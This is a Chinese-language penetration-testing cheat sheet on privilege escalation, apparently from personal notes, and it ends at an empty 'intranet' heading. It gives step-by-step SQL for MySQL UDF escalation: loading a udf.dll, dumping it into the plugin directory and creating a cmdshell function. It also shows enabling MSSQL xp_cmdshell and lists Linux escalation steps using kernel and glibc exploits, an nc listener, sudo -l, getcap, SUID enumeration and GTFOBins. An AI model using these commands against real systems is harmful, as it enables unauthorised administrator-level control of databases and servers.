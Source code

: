 用udf提权，建立在mysql func基础上，有insert delete，就可以创建函数达到攻击目的

大于5.1:  放在 mysql\lib\plugin上

创建表
create table udfeval(shellcode longblob);

写入值
insert into udfeval values(load_file('D:/test/udf.dll'))；

将表中信息导出
select shellcode from udfeval into dump file 'D:/phpstudy_pro/Extensions/MySQL5.7.26/lib/plugin/udf.dll';

创建函数
create function cmdshell returns string soname 'udf.dll';

select * from func; 有就ok

select cmdshell('命令');

小于5.1   放在 cwindodx 或者windod32


## 二 ##
1，连接数据库

2，打开xp_cmdshell

3,调用即可提权成功 exec master.dbo.xp_cmdshell 'whoami'



## linux类型 ##

看内核版本(uname -a)，用exp。版本高的话没办法了。

**centos** 
用GNU glibc提权

1,先看glibc版本(rpm -qa lgrep glibc)

2,exploit-db.com https://packetstormsecurity.com 观看exp的网站

3,nc 监听

4,直接打exp即可

5.sudo -l(https://medium.com/@siddharth.singhal1995/hackthebox-walkthrough-tenten-8-5c1a7a5ec63f)
从上面可以看出用户takis能够以 root 身份执行 /bin/fuckin。这意味着如果他使用 sudo 执行它，它将等同于执行它的root。此外，NOPASSWD 指定在执行时不会询问密码。

6,getcap -r / 2>/dev/null(得到用户的权限) 查看哪种可用，然后在https://gtfobins.github.io/gtfobins/python/#capabilities在root shell  
“2> /dev/null” 代表忽略掉错误提示信息。

7，find / -perm -4000 2>/dev/null 枚举suid文件(suid是以二进制形式运行的，是内核方面的,里面有些文件是以root的权限运行的，所以我们要找这些文件来寻找切入点提权gftobins.github.io)

# 内网: #
